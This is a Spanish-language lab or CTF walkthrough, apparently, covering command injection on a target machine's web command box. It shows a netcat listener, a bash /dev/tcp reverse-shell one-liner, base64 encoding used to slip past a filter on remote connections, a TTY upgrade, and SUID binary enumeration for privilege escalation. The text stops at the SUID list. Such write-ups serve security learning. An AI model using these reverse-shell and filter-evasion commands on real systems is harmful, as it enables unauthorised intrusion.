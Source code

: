 ```
 _____________
|___whoami____|

RUN COMMAND

Command output:  apache  <==== RESULTADO
```
Vale, ya vemos que tenemos acceso a la maquina, pero ¿habra que hacer lo posible para obtener una terminal, verdad?
Bien, entonces lo que vamos a intentar es obtener una "reverse" mediante NETCAT para poder trabajar desde nuestra terminal de la maquina atacante.
¿Y como se hace esto? Pues nos pondremos a la escucha con el comando:
```
nc -nlvp 4444  <=== Elegimos el puerto que queramos
```
Y por otra parte, en el cuadro escribiremos:
```
bash -c "sh -i >& /dev/tcp/192.168.1.150/4444 0>&1"
```
que hemos obtenido de la pagina "https://www.revshells.com/".
Sin embargo nos encontramos con un pequeño problema, y es que al darle a "RUN COMMAND" obtenemos un mensaje de error que nos dice que no se admiten conexiones remotas.
En este momento lo que hay que hacer es intentar "engañar" a la pagina, por lo que codificaremos el comando anterior en base64 escribiendo:
```
echo 'bash -c "sh -i >& /dev/tcp/192.168.1.150/4444 0>&1"' | base64
```
Lo que nos dara como resultado la siguiente cadena:
```
YmFzaCAtYyAic2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjE1MC80NDQ0IDA+JjEiCg==
```
Bien, ahora solo nos faltaria lo que hemos dicho antes: "engañar" a la pagina con el comando:
```
echo "YmFzaCAtYyAic2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjE1MC80NDQ0IDA+JjEiCg==" | base64 -d | bash
```
Y finalmente obtenemos la reverse por nuestro terminal quedandonos lo siguiente:
```
connect to [192.168.1.150] from (UNKNOWN) [192.168.1.167] 56908
sh: cannot set terminal process group (824): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1$
```
Ahora, tenemos que tratar la TTY, pero en este caso usaremos Python:
```
sh-5.1$ python -c 'import pty;pty.spawn("/bin/bash")'

bash-5.1$
```
Como se puede ver, tenemos un pequeño prompt mas "normal".
Es momento de intentar hacer una escalada de privilegios ya que si ponemos "whoami" seguimos siendo "apache", por lo que empezaremos probando con "sudo -l", sin embargo no funciona.
Habra que probar entonces mediante el comando "find / -perm -4000 2>/dev/null" el cual nos mostrara una lista de binarios como se puede ver a continuacion:
```
bash-5.1$ find / -perm -4000 2>/dev/null

/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
```